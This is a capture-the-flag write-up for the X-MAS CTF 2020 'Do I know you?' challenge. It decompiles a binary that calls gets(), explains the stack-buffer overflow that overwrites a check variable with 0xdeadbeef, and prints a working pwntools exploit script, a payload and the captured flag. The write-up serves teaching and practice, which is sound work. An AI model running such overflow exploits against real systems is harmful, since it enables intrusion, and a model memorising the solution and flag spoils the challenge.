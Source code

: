 # X-MAS CTF 2020

## Do I know you?

> 43
>
> You walk on the street. This guy seems to recognize you. What do you do?
>
> Target: `nc challs.xmas.htsp.ro 2008`
> 
> Author: Th3R4nd0m
> 
> [doiknowyou.zip](doiknownyou.zip)

Tags: _pwn_ _x86-64_ _bof_ _variable-overwrite_


## Summary

Basic variable overwrite BOF.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  char local_38 [32];
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi there. Do I recognize you?");
  gets(local_38);
  if (local_18 != 0xdeadbeef) {
    puts("Nope.....I have no idea who you are");
    exit(0);
  }
  puts("X-MAS{Fake flag. You\'ll get the real one from the server }");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

The vulnerability is `gets(local_38)`, after that a check, that if not passed will `exit`, otherwise print the flag (next statement).

To get the flag just overflow `local_38` into `local_18` with `0xdeadbeef`, i.e. write out `0x38 - 0x18` bytes of garbage followed by `0xdeadbeef`.

> `0x38 - 0x18` is the difference of offsets within the stack frame.  Ghidra `local` `_38` and `_18` give away the offsets within the stack.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

p = remote('challs.xmas.htsp.ro', 2008)

payload  = b''
payload += (0x38 - 0x18) * b'A'
payload += p64(0xdeadbeef)

p.sendlineafter('you?\n', payload)
p.stream()
```


Output:

```bash
[+] Opening connection to challs.xmas.htsp.ro on port 2008: Done
X-MAS{ah_yes__i_d0_rememb3r_you}
```

